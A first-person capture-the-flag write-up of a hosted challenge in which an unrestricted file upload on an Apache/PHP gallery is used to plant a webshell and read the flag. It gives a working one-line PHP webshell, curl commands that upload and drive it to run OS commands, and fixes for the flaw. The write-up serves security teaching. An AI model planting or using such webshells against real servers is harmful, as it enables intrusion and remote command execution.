

# OFF THE WALL, Unrestricted File Upload → PHP Webshell RCE, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | OFF THE WALL ("street-art gallery" file upload) |
| **Service** | **Apache/2.4.68 (Debian)** + PHP, HTTP, TCP/8160 (EC2) |
| **IP:Port** | `54.72.82.22:8160` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | The gallery accepts any file with no type/extension check and stores it under a web-reachable `/uploads/`. I uploaded a PHP webshell, executed OS commands as `www-data`, and read `flag.txt`. Cleaned the shell up afterwards. |
| **Honesty note** | Second-wave sweep. No tricks needed, the upload had zero restrictions. I removed my shell from their server once I had the flag. |

---

## 1. The Short Version

OFF THE WALL invites you to *"upload your work to the city's gallery."* A file input (`uploaded_file`), Apache + PHP, and a `/uploads/` directory that exists (it returns 403, not 404, listing denied but present). That's the full recipe for **unrestricted file upload → RCE**: if I can put a `.php` file where Apache will execute it, I own the box.

```php
// sh.php
<?php system($_GET["c"] ?? "id"); ?>
```

```bash
curl -s -X POST http://54.72.82.22:8160/ -F "uploaded_file=@sh.php"
curl -s "http://54.72.82.22:8160/uploads/sh.php?c=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Code execution. Then read the flag and clean up:

```bash
curl -s "http://54.72.82.22:8160/uploads/sh.php?c=cat%20/var/www/html/flag.txt"
# safctf{059507cb1ce1b9fa4dbf4ad6cfb83a4a}
curl -s "http://54.72.82.22:8160/uploads/sh.php?c=rm%20-f%20/var/www/html/uploads/sh.php"
```

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{059507cb1ce1b9fa4dbf4ad6cfb83a4a}` | upload `sh.php` → execute `cat /var/www/html/flag.txt` as www-data |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Upload accepts any filename/extension/content | **Unrestricted File Upload** (CWE-434) | `POST /` (`uploaded_file`) | Critical (RCE) |
| 2 | Upload dir is web-served and executes PHP | Dangerous upload location / exec | `/uploads/` | Critical |

---

## 3. Recon

```bash
curl -s http://54.72.82.22:8160/ | grep -oiE '<form[^>]*>|<input[^>]*>'
# <form method="POST" enctype="multipart/form-data">
# <input type="file" name="uploaded_file" ... required>

# probe the likely store
curl -s -o /dev/null -w '%{http_code}\n' http://54.72.82.22:8160/uploads/   # 403  (exists)
```

Apache + PHP + a writable, web-served `uploads/` that executes PHP = the whole challenge is "can I put a `.php` there?" I tried the simplest thing first.

---

## 4. The Exploit

```bash
echo '<?php echo "SHELLOK:"; system($_GET["c"] ?? "id"); ?>' > sh.php

# upload — no filter to fight
curl -s -X POST http://54.72.82.22:8160/ -F "uploaded_file=@sh.php;type=application/x-php"

# execute
curl -s "http://54.72.82.22:8160/uploads/sh.php?c=id"
# SHELLOK:uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It accepted the raw `.php` with no extension/MIME/magic-byte check and stored it at `/uploads/sh.php`, which Apache happily executed. From there it's an ordinary shell:

```bash
run(){ curl -s --get "http://54.72.82.22:8160/uploads/sh.php" --data-urlencode "c=$1"; }
run 'ls -la /var/www/html'
# ... flag.txt (root:root, 41 bytes) ... index.php ... uploads/
run 'cat /var/www/html/flag.txt'
# safctf{059507cb1ce1b9fa4dbf4ad6cfb83a4a}
```

### 4.1 Cleanup (hygiene)

A live webshell on someone's server is a real risk even in a CTF, anyone who finds `/uploads/sh.php` gets the same RCE. I removed it as soon as I had the flag:

```bash
run 'rm -f /var/www/html/uploads/sh.php && echo cleaned'   # cleaned
```

(I noticed another player's `s.php` already sitting in `uploads/`, same bug, left behind. I left their file alone and only removed my own.)

---

## 5. Why It Worked & How I'd Fix It

- **Root cause:** the handler saves the uploaded file under the web root with its original (or attacker-chosen) extension, and the directory executes PHP. Two independent mistakes that combine into RCE: *no validation* **and** *executable upload location*.
- **Why it's so impactful:** file upload is one of the few web bugs that is *directly* RCE with no further pivot.

Fixes (defense in depth, do several):

1. **Store uploads outside the web root**, or in a bucket; serve them through a handler that sets `Content-Disposition: attachment` and a non-executable content type. If nothing in `/uploads/` can be *executed*, a `.php` there is inert.
2. **Disable script execution in the upload dir:**
   ```apache
   <Directory /var/www/html/uploads>
     php_admin_flag engine off
     RemoveHandler .php .phtml .php3 .php4 .php5 .phar
     Require all denied        # or serve only as static downloads
   </Directory>
   ```
3. **Validate properly**: allowlist extensions *and* verify magic bytes/MIME; don't trust the client `type`. Beware double extensions (`shell.php.jpg`), `.phtml/.phar/.pht`, null bytes, and case (`.PHP`).
4. **Rename on store** to a server-generated name with a forced-safe extension; strip the original name.
5. **Least privilege**: `www-data` could read a root-owned `flag.txt` here; tighten file perms and run with minimal rights.

---

## 6. Timeline

- Saw the upload form + Apache/PHP + a 403 (existing) `/uploads/`.
- Uploaded `sh.php` (no filter) → executed `id` → `www-data`.
- `cat /var/www/html/flag.txt` → flag.
- Removed my webshell.

---

## 7. References

- OWASP, **Unrestricted File Upload** / File Upload Cheat Sheet
- PortSwigger, **File upload vulnerabilities**
- CWE-434 (Unrestricted Upload of File with Dangerous Type)

**Lesson I'm keeping:** on Apache+PHP, the whole game is *"can my bytes land somewhere that executes them?"* A `/uploads/` that returns 403 (not 404) and runs PHP is an invitation. And clean up your shells.
